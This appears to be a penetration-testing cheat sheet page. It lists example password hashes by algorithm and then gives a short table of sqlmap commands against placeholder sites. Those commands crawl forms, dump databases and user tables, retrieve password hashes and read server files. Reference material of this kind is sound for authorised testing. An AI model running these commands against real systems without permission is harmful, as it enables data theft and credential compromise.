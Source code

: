 ### Hash Examples

Likely just use **hash-identifier** for this but here are some example hashes:

| Hash | Example |
| --- | --- |
| MD5 Hash Example | 8743b52063cd84097a65d1633f5c74f5 |
| MD5 $PASS:$SALT Example | 01dfae6e5d4d90d9892622325959afbe:7050461 |
| MD5 $SALT:$PASS | f0fda58630310a6dd91a7d8f0a4ceda2:4225637426 |
| SHA1 Hash Example | b89eaac7e61417341b710b727768294d0e6a277b |
| SHA1 $PASS:$SALT | 2fc5a684737ce1bf7b3b239df432416e0dd07357:2014 |
| SHA1 $SALT:$PASS | cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024 |
| SHA-256 | 127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935 |
| SHA-256 $PASS:$SALT | c73d08de890479518ed60cf670d17faa26a4a71f995c1dcc978165399401a6c4 |
| SHA-256 $SALT:$PASS | eb368a2dfd38b405f014118c7d9747fcc97f4f0ee75c05963cd9da6ee65ef498:560407001617 |
| SHA-512 | 82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f |
| SHA-512 $PASS:$SALT | e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd |
| SHA-512 $SALT:$PASS | 976b451818634a1e2acba682da3fd6efa72adf8a7a08d7939550c244b237c72c7d42367544e826c0c83fe5c02f97c0373b6b1386cc794bf0d21d2df01bb9c08a |
| NTLM Hash Example | b4b9b02e6f09a9bd760f388b67351e2b |

## **SQLMap Examples**

A mini SQLMap cheat sheet:

| Command | Description |
| --- | --- |
| sqlmap -u http://meh.com --forms --batch --crawl=10  --cookie=jsessionid=54321 --level=5 --risk=3 | Automated sqlmap scan |
| sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php" | Targeted sqlmap scan |
| sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump | Scan url for union + error based injection with mysql backend and use a random user agent + database dump |
| sqlmap -o -u "http://meh.com/form/" --forms | sqlmap check form for injection |
| sqlmap -o -u "http://meh/vuln-form" --forms  -D database-name -T users --dump | sqlmap dump and crack hashes for table users on database-name. |